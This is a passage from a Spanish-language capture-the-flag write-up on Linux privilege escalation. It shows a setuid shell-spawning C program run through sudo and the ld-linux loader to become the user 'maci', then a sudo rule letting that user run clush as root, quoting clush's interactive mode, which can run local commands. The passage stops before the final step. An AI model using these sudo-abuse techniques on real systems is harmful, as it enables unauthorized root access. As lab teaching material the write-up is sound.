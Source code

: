 Vemos que podemos ejecutar `/lib64/ld-linux-x86-64.so.2` como el usuario `maci`, por lo que haremos lo siguiente:

Vamos a crear un archivo que sera el siguiente:

> malicious\_binary.c

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setuid(0); // Hacer que el proceso tenga privilegios de root
    setgid(0); // Establecer el grupo como root
    system("/bin/bash"); // Ejecutar bash
    return 0;
}
```

Y ahora vamos a compilarlo:

```shell
gcc -o malicious_binary malicious_binary.c
```

Hecho todo esto anterior, lo ejecutaremos de la siguiente forma bajo el usuario `maci`:

```shell
sudo -u maci /lib64/ld-linux-x86-64.so.2 --library-path . ./malicious_binary
```

Y con esto ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for maci on 71c36e1f8f71:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on 71c36e1f8f71:
    (ALL : ALL) NOPASSWD: /usr/bin/clush
```

Vemos que podemos ejecutar el binario `clush` bajo el usuario `root`, por lo que haremos lo siguiente:

Investigando mucho en internet vemos la siguiente pagina:

URL = [ClusterShell](https://clustershell.readthedocs.io/en/latest/tools/clush.html#reverse-file-copying-mode)

Y en un apartado de la pagina pone lo siguiente:

```
$ clush -w node[11-14] -b
Enter 'quit' to leave this interactive mode
Working with nodes: node[11-14]
clush> uname
---------------
node[11-14] (4)
---------------
Linux
clush> !pwd
LOCAL: /root
clush> -node[11,13]
Working with nodes: node[12,14]
clush> uname
---------------
```
